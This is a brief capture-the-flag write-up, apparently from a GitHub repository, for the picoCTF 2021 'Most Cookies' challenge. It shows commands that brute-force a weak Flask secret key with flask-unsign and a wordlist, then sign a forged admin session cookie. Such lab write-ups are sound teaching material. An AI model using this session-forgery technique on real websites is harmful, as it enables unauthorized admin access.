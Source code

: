 Date: 9 August, 2022
Author: givememysushi
Challenge-name: Most Cookies - picoCTF 2021
Challenge: change the cookie data into the fake admin cookie and encrypt it back using the same secret key to that of original
Given: code.py - the python code of the website.

Solution:

=== Investigation ===
1. analyzed the code.py 
<result>
	Flask secret key was the randomly selected element of cookie_names list.
	The list of cookie_names was saved for bruteforcing the secret key.
</result>

2. Retrieved the cookie using the cookie editor add-on called "Cookie Quick Manager"

3. Tried to decrypt it with base64

<command>	echo cookie | base64 -d		</command>

<result>	got the cookie format; {"very_auth","blank"}	<result>

=== Exploitation phase ===
1. Generated a wordlist with saved list of cookie_names

<code>
with open('wordlist.txt','w') as f:
	wordlist = cookie_names

	for i in wordlist:
		f.write( "\n" + i )
</code>

2. Used flask-unsign to bruteforce the secret key out of encrypted cookie with the following command:

<command>
	flask-unsign --unsign --cookie <insert_cookie> --wordlist wordlist.txt
</command>

3. Encrypted the fake admin cookie

<command>
	flask-unsign --sign --cookie {"very_auth","admin"} --secret <insert_secret_key>
</command>

4. Assigned the encrypted cookie with cookie editor and refreshed the webpage. Then the flag appeared.

<success>
	picoCTF{flag}
</success>
"# CTF"